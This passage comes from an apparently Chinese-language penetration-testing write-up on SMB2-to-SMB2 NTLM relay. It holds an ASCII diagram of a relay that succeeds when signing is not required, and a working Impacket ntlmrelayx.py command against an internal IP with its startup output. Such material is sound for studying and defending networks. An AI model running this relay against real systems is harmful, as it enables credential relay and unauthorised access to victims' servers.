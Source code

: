 实际上，SMB2协议可以针对自身进行中继：

```
###SMB2 NTLM Relay (default case).
 client <------SMB2-----> attacker <------SMB2------> server (Non DC)
   |                          |                          |
   | SMB2 NEGOTIATE REQUEST   |  SMB2 NEGOTIATE REQUEST  |
   | -----------------------> | -----------------------> |
   |  SMB SIGN_REQUIRED = 0   |  SMB SIGN_REQUIRED = 0   |
   |                          |                          |
   |                          |                          |
   | SMB2 NEGOTIATE RESPONSE  |  SMB2 NEGOTIATE RESPONSE |
   | <----------------------- | <----------------------- |
   |  SMB SIGN_REQUIRED = 0   |  SMB SIGN_REQUIRED = 0   |
   |                          |                          |
   |                          |                          |
   |                          |                     -----|--.
   |   NEGOTIATE SIGN=1       |     NEGOTIATE SIGN=1     |  |
   | -------------------->    | -----------------------> |  |
   |                          |                          |  |
   |                          |                          |  |
   |   CHALLENGE SIGN=1       |     CHALLENGE SIGN=1     |  |> NTLM Relay
   | <--------------------    | <----------------------- |  |
   |                          |                          |  |
   |                          |                          |  | 
   |  AUTHENTICATE SIGN=1     |   AUTHENTICATE SIGN=1    |  |
   | -------------------->    | -----------------------> | -|---> MIC OK!!
   |                          |                     -----|--'
   |                          |           ||             |
   |                          |           vv             |
   |                          | client SIGN_REQUIRED = 0 |
   |                          | server SIGN_REQUIRED = 0 |
   |                          |           ||             |
   |                          |           vv             |
   |                          |  Signing NOT required    |
   |                          |   Successful Attack!!    |
   |                          |                          |
   |                          |       application        |
   |                          |        messages          |
   |                          | -----------------------> |
   |                          |                          |
   |                          | <----------------------- |
   |                          |                          |
   |                          | -----------------------> |
   |                          |                          |
```

```powershell
###NTLM Relay SMB2 to SMB2 with ntlmrelayx.py
$ ntlmrelayx.py -t 192.168.100.10 -smb2support --no-http-server
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client MSSQL loaded..
/usr/lib/python3/dist-packages/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.26.3) or chardet (3.0.4) doesn't match a supported version!
  RequestsDependencyWarning)
[*] Running in relay mode to single host
```